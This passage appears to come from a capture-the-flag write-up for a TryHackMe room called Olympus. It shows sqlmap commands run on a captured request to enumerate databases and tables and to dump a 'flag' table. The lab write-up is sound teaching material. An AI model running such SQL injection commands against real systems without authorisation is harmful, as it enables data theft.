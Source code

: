 Then we'll do a `sqlmap scan` on the captured request.

```
$ sqlmap -r ol.req --dbs
```

![dbs](/assets/img/tryhackme/olympus/dbs.png)

We found the `olympus database`. 

```
$ sqlmap -r ol.req -D olympus --tables
```

![tables](/assets/img/tryhackme/olympus/tables.png)

Let's get the flag.

```
$ sqlmap -r ol.req -D olympus -T flag --dump
```
